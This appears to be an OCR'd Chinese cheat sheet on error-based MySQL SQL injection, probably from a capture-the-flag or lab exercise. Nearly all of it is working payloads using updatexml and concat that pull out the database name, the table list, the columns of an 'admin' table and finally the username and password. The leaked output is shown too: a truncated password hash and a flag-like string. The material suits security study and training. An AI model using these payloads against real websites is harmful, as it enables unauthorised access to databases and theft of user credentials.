# SQL注入

## 报错注入

报错数据库名 

```sql
select updatexml(1,concat(0x7e,database()),1); 
```

' or updatexml(1,concat(0x7e,database()),1);# 

abc 

 

报错数据库表 

```sql
select updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1); 
```

' or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1);# 

admin 

 

如果数据库中的表（table）只有一个 

```sql
select updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database())),1); 
```

' or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database())),1);# 

 

报错数据库表中的列 

```sql
select updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=**'****table name****'**)),1); 
```

'or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=**'****admin****'**)),1);# 

username password 

 

'or updatexml(1,substr(concat(0x7e,(select concat(username,',',password) from abc.admin)),4,32),1);# 

21232f297a57a5a743894a0e4a8 

Love_is_a_light_that_never_dims 
